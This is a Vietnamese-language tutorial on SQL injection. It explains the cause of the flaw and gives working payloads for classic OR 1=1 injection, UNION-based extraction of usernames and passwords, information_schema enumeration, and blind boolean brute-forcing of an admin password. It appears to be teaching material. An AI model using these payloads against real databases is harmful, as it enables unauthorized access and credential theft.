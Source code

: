 # SQL INJECTION
### 1.SQL Injection là gì?
+ SQL Injection là một kỹ thuật tấn công cho phép kẻ tấn công chèn mã SQL vào dữ liệu gửi đến máy chủ.
+ Cuối cùng được thực thi mã trên máy chủ cơ sở dữ liệu
### 2.Nguyên nhân chính của lỗ hổng SQL Injection là gì?
+ Do dữ liệu đầu vào từ người dùng không được kiểm tra kỹ lưỡng
+ Sử dụng các câu lệnh SQL động,thao tác nối dữ liệu người dùng với mã lệnh SQL gốc
### 3.Các dạng tấn công SQL Injection:
#### 1.Classic SQL Injection: 
##### Kiểu tấn công chèn mã độc trực tiếp vào câu lệnh SQL
Ví dụ : input đầu vào là @query = 'john'
Ở đây câu truy vấn sẽ SELECT đến bảng users để lấy dữ liệu có username = 'john'
```Mysql
SELECT * FROM users WHERE username = @query;
```
Nhưng ở đây chúng ta không biết trong bảng users có những username nào.Vì thế chúng ta cần sửa lại input đầu vào để câu truy vấn luôn đúng.@query = 'john' or 1 = 1 --  
```MySQL
SELECT * FROM users WHERE username = 'john' or 1 = 1 -- ;
```
Kết quả trả về sẽ là tất cả dữ liệu của bảng users
#### 2.UNION-based SQL Injection: 
##### Kiểu tấn công này liên quan đến sử dụng UNION để kết hợp 2 hay nhiều câu lệnh SELECT.
Để câu truy vấn UNION hoạt động thì phải đáp ứng được 2 yêu cầu:

+ Các câu truy vấn riêng phải cùng có số cột.
+ Các kiểu dữ liệu trong mỗi cột phải tương thích với nhau.

Ví dụ : input đầu vào là @query = '123'
```MySQL
SELECT name,type FROM category WHERE id = @query;
```
Ở đây mình muốn lấy username,password từ bảng `users`,mình cần check trước là số lượng cột ở câu truy vấn trước.@query có thể:
```MySQL
'123' UNION SELECT NULL,NULL--
'123' UNION SELECT NULL,NULL,NULL--
'123' UNION SELECT NULL,NULL,NULL,NULL--
etc.
```
Ở đây mình dùng `NULL` vì nó có thể chuyển đổi thành mọi kiểu dữ liệu.Mình sẽ thử lần lượt các câu query cho đến khi server không báo lỗi.
```MySQL
SELECT name,type FROM category WHERE id = '123' UNION SELECT NULL,NULL--;
```
Bây giờ mình cần kiểm tra dữ liệu của từng cột.@query có thể:
```MySQL
'123' UNION SELECT 'x',NULL--
'123' UNION SELECT NULL,'x'--
'123' UNION SELECT 'x','y'--
etc.
```
Sau khi xác định được kiểu dữ liệu thì bây giờ mình cần truy vấn lấy dữ liệu ở bảng `users`
```MySQL
SELECT name,type FROM category WHERE id = '123' UNION SELECT username,password FROM users--;
```
#### 3.Examining the database:
##### Kiểu tấn công này sẽ lấy được phiên bản,các bảng trong cơ sở dữ liệu
Truy vấn đến `information_schema.tables` để liệt kê các bảng trong cơ sở dữ liệu
```MySQL
SELECT * FROM information_schema.tables
```
Sau đó chúng ta có thể truy vấn `information_schema.columns`để xem các cột dữ liệu của chúng
```MySQL
SELECT * FROM information_schema.columns WHERE table_name='users'
```
Cuối cùng ta có thể truy vẫn đến từng giá trị của bảng
```MySQL
SELECT user_abcd,pasword_efgh FROM users
```
Mình thấy hay kết hợp với câu truy vấn `UNION`
#### 4.Bind SQL Injection:
##### Kiểu tấn công này sẽ không trả về kết quả của câu truy vấn đưa vào
Ví dụ:
```MySQL
SELECT * FROM users WHERE username=@query;
-- Nếu câu truy vấn đúng sẽ in ra giao diện "successfully"
-- Ngược lại sẽ không in gì
```
Bây giờ mình thử xâm nhập:
```MySQL
SELECT * FROM users WHERE username='admin';
-- hiện thị "successfully"
SELECT * FROM users WHERE username='admin' AND 1 = 2;
-- không hiện thị
SELECT * FROM users WHERE username='admin' AND 1=1;
-- hiện thị "successfully"
```
Gỉa sử mình biết trong cơ sở dữ liệu có bảng `users` và có username = 'admin',mình cần tìm ra password.
Ban đầu mình cần tìm ra độ dài của password @length = 1:
```MySQL
SELECT * FROM users WHERE username='admin' 
AND (select 'pwd' from users where username = 'admin' AND LENGTH(password)>@length)='pwd';
-- hiện thị "successfully"
```
Mình cần tăng @length đến khi nào không hiện thị `successfully`,giả sử length =10 bây giờ mình cần tìm password bằng cách cắt và so sánh từng kí tự 1.
```MySQL
SELECT * FROM users WHERE username='admin' 
AND (select SUBSTRING(password,1,1) from users where username = 'admin')='a';
-- không hiện thị
-- Chỗ này mình cần thay đổi giá trị 'a' đến khi hiện thị
```
Mình dùng `Bruteforce` để gửi các payload.Ở đây có 2 payload là vị trí của từng ký tự và payload để so sánh (a,b) 
```MySQL
SELECT * FROM users WHERE username='admin' 
AND (select SUBSTRING(password,$a$,1) from users where username = 'admin')='$b$';
```
Chạy xong sẽ tìm được password!








